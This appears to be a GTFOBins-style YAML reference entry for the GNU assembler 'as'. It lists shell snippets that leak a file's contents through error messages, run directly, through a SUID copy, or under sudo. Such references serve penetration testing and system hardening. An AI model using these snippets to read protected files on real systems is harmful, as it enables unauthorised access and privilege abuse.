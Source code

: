 ```yaml
---
description: The file content is treated as command line options and disclosed throught error messages, so this is not suitable to read arbitrary binary data.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        as @$LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./as @$LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo as @$LFILE
---
```

